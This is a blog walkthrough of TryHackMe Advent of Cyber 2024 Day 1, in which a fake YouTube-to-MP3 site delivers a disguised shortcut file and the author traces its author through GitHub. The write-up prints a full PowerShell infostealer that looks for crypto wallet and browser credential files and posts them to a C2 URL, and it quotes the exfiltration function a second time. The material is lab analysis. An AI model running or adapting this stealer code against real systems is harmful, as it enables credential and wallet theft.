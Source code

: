 ```yaml
---
title: Try Hack Me Advent of Cyber 2024 - Day 1
date: 2025-02-08
categories: [opsec, writeups]
tags: [opsec, purple]      # TAG names should always be lowercase
---
```


# Advent of Cyber 2024 Day 1








## Challenge info:




This is the day 1 challenge for the advent of a cyber event that was held this past holiday season that I missed. These challenges are easy and digestible targeted towards beginners. I am mainly walking through them for some quick learning and brushing up on some skills, as well I want to find the keycards for the harder side quest challenges. This challenge focuses on a OPSEC challenge that is focused on a youtube to mp3 style site.












## Walkthrough steps:




![alt text](../assets/imgs/aocday1/image-12.png)




The first thing I did on this site was try to upload a random youtube video to the site and download it as a `mp3`.


![alt text](../assets/imgs/aocday1/image-14.png)


Next we can download the file. This results in a zip folder so let's check it out...


![alt text](../assets/imgs/aocday1/image-15.png)




After extracting the contents we are greeted to 2 files `song.mp3` and `somg.mp3`, but weirdly one of them is executable...


![alt text](../assets/imgs/aocday1/image-16.png)


When we inspect the file types we can find something concerning...


![alt text](../assets/imgs/aocday1/image-17.png)


`somg.mp3` is a windows shortcut linker script. Lets check it out with `exiftool`.


![alt text](../assets/imgs/aocday1/image-18.png)




At the bottom of the output we can see a powershell command.


![alt text](../assets/imgs/aocday1/image-19.png)


Lets checkout that github file download. By following the link we can find the following code.




```
function Print-AsciiArt {
   Write-Host "  ____     _       ___  _____    ___    _   _ "
   Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |" 
   Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
   Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
   Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"


   Write-Host "         Created by the one and only M.M."
}


# Call the function to print the ASCII art
Print-AsciiArt


# Path for the info file
$infoFilePath = "stolen_info.txt"


# Function to search for wallet files
function Search-ForWallets {
   $walletPaths = @(
       "$env:USERPROFILE\.bitcoin\wallet.dat",
       "$env:USERPROFILE\.ethereum\keystore\*",
       "$env:USERPROFILE\.monero\wallet",
       "$env:USERPROFILE\.dogecoin\wallet.dat"
   )
   Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
   foreach ($path in $walletPaths) {
       if (Test-Path $path) {
           Add-Content -Path $infoFilePath -Value "Found wallet: $path"
       }
   }
}


# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
   $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"


   Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
   if (Test-Path $chromePath) {
       Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
   }
   if (Test-Path $firefoxPath) {
       Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
   }
}


# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
   $c2Url = "http://papash3ll.thm/data"
   $data = Get-Content -Path $infoFilePath -Raw


   # Using Invoke-WebRequest to send data to the C2 server
   Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}


# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server


```


This looks to be some kind of infostealer and at the top we can see a pretty unique str "Created by the one and only M.M.". We can search for this string on github to see if we get any hits. This would be bad for the malicious actor who wrote this script.


![alt text](../assets/imgs/aocday1/image-22.png)


We can see a few different results (I assume some are writeups or reposts as this challenge is old now.) The one that we want is at the bottom of the page so let's check it out.


![alt text](../assets/imgs/aocday1/image-23.png)


If we scroll down further we can see the same script that we downloaded.


![alt text](../assets/imgs/aocday1/image-24.png)


If we navigate to this user's github we can find the following.


![alt text](../assets/imgs/aocday1/image-25.png)




We should now have enough info to answer the following questions.


## Questions and Flags:


* Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?


   * ![alt text](../assets/imgs/aocday1/image-26.png)


* The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?


   * We can find this in the stealer script.
   ```
       # Function to send the stolen info to a C2 server
       function Send-InfoToC2Server {
           $c2Url = "http://papash3ll.thm/data"
           $data = Get-Content -Path $infoFilePath -Raw


           # Using Invoke-WebRequest to send data to the C2 server
           Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
       }
   ```
   * "http://papash3ll.thm/data"


* Who is M.M? Maybe his Github profile page would provide clues?
   * We can gain this information from that github profile we found while doing some basic opsec.
   ![alt text](../assets/imgs/aocday1/image-25.png)


* What is the number of commits on the GitHub repo where the issue was raised?


   * We can find this by going back to the issue where `mayor malware` commented and then clicking the repo. Then we can view the commits of the repo.


   ![alt text](../assets/imgs/aocday1/image-27.png)




* What's with all these GitHub repos? Could they hide something else?


   * This hint at the bottom caught my eye as I am hunting for the keys to do the harder side quest challenges but I will save the keycard hunting for the side quest writeups.







































